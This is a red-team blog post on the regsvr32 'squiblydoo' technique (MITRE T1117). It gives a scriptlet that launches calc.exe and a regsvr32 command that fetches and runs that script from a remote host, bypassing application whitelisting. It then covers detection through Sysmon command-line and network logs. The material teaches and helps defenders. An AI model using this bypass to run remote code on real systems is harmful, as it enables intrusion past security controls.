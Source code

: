 ```yaml
---
layout: post
title: "2024-06-18-t1117 regsvr32 aka squiblydoo"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1117-regsvr32-aka-squiblydoo/
---
```


---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---

# regsvr32

## Execution

{% code title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode %}

We need to host the back.sct on a web server so we can invoke it like so:

{% code title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](<../../.gitbook/assets/regsvr32-commandline (1).png>)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}
@spotheplanet
